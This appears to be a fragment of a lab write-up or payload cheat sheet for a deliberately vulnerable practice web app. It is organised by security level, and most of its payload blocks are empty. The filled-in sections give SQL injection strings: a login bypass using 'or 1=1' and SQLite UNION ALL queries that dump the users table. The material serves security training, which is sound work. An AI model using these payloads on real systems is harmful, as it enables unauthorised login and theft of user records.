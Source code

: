 ### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  SQL Injection (Login Form/User) 💀
```
ok' or 1=1-- "
```

### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  SQL Injection(SQLite) 💀

```
a%' UNION ALL SELECT 1,sqlite_version(),1,1,1,1; --
```
or
```
%' UNION ALL select * from users where id=1; -- "
```
or
```
login=lol%' UNION ALL select * from users -- "&password=bug&
```

### Security level: low

